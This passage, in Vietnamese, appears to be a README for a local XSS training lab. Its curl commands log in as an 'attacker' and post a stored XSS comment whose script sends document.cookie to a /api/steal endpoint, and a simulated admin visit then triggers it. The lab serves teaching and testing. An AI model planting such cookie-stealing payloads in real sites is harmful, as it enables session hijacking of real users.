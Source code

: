 ## Demo Nhanh

### Bước 1: Login as attacker

```bash
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user1","password":"password1"}'
```

### Bước 2: Post XSS payload

```bash
curl -X POST http://localhost:3000/api/comment \
  -H "Content-Type: application/json" \
  -H "Cookie: auth=user1:password1" \
  -d '{"comment":"<script>fetch(\"/api/steal?cookie=\"+document.cookie)</script>"}'
```

### Bước 3: Đợi 5 giây và xem server console

Bạn sẽ thấy:

1. ⏰ Countdown 5 giây
2. 👤 Admin simulation
3. ✅ Admin đã xem trang
4. 🚨 XSS detected
5. 🚨 Stolen cookie received

## Lợi Ích

### 1. Test Tự Động

-   Không cần mở browser thủ công
-   Không cần đăng nhập admin thủ công
-   Tự động verify XSS hoạt động

### 2. Development Speed

-   Test nhanh XSS payloads
-   Immediate feedback
-   Dễ debug

### 3. Demo/Education

-   Rõ ràng và trực quan
-   Dễ hiểu attack flow
-   Real-time logging

## Code Implementation

### Server.js - API Comment
